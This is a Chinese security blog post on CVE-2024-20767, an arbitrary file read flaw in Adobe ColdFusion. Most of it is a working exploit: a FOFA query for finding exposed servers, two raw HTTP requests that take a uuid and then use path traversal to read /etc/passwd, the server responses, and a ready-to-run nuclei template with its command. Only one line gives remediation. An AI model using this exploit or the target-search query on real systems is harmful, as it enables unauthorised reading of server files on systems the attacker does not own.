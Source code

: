 #  CVE-2024-20767   
原创 fgz  AI与网安   2024-04-02 07:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Adobe ColdFusion 任意文件读取漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
ColdFusion 2023 <= Update 6 和 ColdFusion 2021<= Update 12版本  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Adobe ColdFusion是美国奧多比(Adobe)公司的一套快速应用程序开发平台。该平台ColdFusion 2023 <= Update 6 和 ColdFusion 2021<= Update 12版本中存在一个任意文件读取漏洞。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
app="Adobe-ColdFusion" && title=="Error Occurred While Processing Request"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN1iboGtrXjCbgqx1NqvjhGlWAjW64iaQ1czzibltxgawJ2vVklXBBe6Ptc8VZdktR9EAVDV4ncibEwpg/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
第一步，向靶场发送如下数据包，获取uuid  
```
GET /CFIDE/adminapi/_servermanager/servermanager.cfc?method=getHeartBeat HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html;charset=UTF-8
Date: Mon, 01 Apr 2024 10:39:50 GMT

<wddxPacket version='1.0'><header/><data><struct><var name='started_at'><number>1.710283607262E12</number></var><var name='monitoring_enabled'><boolean value='false'/></var><var name='es_port'><number>0.0</number></var><var name='port'><string>8500</string></var><var name='host'><string>172.18.0.3</string></var><var name='j2ee'><boolean value='false'/></var><var name='traking_enabled'><boolean value='false'/></var><var name='time_stamp'><number>1.711967990163E12</number></var><var name='display_name'><string></string></var><var name='instance_id'><string>172.18.0.3:cfusion:8500</string></var><var name='group_id'><null/></var><var name='name'><string>cfusion</string></var><var name='group_name'><null/></var><var name='jdk'><string>oracle</string></var><var name='https_enabled'><boolean value='false'/></var><var name='es_host'><string></string></var><var name='version'><number>1.0</number></var><var name='cluster_id'><null/></var><var name='uuid'><string>85f60018-a654-4410-a783-f81cbd5000b9</string></var></struct></data></wddxPacket>
```  
  
第二步，读取/etc/passwd文件  
```
GET /pms?module=logging&file_name=../../../../../../../etc/passwd&number_of_lines=100 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
uuid: 85f60018-a654-4410-a783-f81cbd5000b9
```  
  
响应数据包如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 660
Content-Type: application/json;charset=ISO-8859-1
Date: Mon, 01 Apr 2024 10:39:50 GMT

[_apt:x:104:65534::/nonexistent:/bin/false, systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false, systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false, gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin, list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin, www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin, uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin, mail:x:8:8:mail:/var/mail:/usr/sbin/nologin, man:x:6:12:man:/var/cache/man:/usr/sbin/nologin, sync:x:4:65534:sync:/bin:/bin/sync, bin:x:2:2:bin:/bin:/usr/sbin/nologin, root:x:0:0:root:/root:/bin/bash]
```  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-20767

info:
  name: Adobe ColdFusion 任意文件读取漏洞
  author: fgz
  severity: high
  description: Adobe ColdFusion是美国奧多比(Adobe)公司的一套快速应用程序开发平台。该平台ColdFusion 2023 <= Update 6 和  ColdFusion 2021<= Update 12版本中存在一个任意文件读取漏洞。
  metadata:
    max-request: 1
    fofa-query: app="Adobe-ColdFusion" && title=="Error Occurred While Processing Request"
    verified: true
requests:
  - raw:
      - |
        GET /CFIDE/adminapi/_servermanager/servermanager.cfc?method=getHeartBeat HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept: */*
        Connection: close

      - |
        GET /pms?module=logging&file_name=../../../../../../../etc/passwd&number_of_lines=100 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept: */*
        Connection: close
        uuid: {{uuid}}

    extractors:
      - type: regex
        name: uuid
        group: 1
        internal: true
        part: body  # part of the response (header,body,all)
        regex:
          - "([0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12})"

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && contains(body_1, 'uuid') && status_code_2 == 200 && contains(body_2, 'root:')"

```  
  
运行POC  
```
nuclei.exe -t CVE-2024-20767.yaml -l 1.txt
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
